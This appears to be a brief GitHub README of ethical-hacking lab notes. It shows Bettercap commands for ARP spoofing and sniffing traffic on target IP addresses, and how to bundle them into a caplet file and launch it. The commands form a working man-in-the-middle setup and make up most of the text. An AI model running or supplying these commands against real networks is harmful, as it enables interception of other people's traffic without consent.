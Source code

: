 # wifi_router-MMTK

    
    
 
 net.probe on
 
 set arp.spoof.fullduplex true 
 
 set arp.spoof.targets 10.0.2.5
 
 arp.spoof on
 
 set net.sniff.local true
 
 net.sniff on


# Automate BetterCAP using Caplets
To be more efficient on your work, you can automate the modules setup part by creating a simple Caplet file(file.cap) and adding the commands per line.

## Create the caplet:

touch spoof.cap

## Add the commands and save it :

nano spoof.cap

   
   
   net.probe on
   
   set arp.spoof.fullduplex true 
   
   set arp.spoof.targets 192.168.0.131
   
   arp.spoof on
   
   set net.sniff.local true
   
   net.sniff on


As you can see is the same commands in order that you used previously.

## Start the Bettercap using the spoof Caplet that you created:

    bettercap -iface eth0 -caplet spoof.cap



# hacking lave
https://github.com/Samsar4/Ethical-Hacking-Labs/tree/master
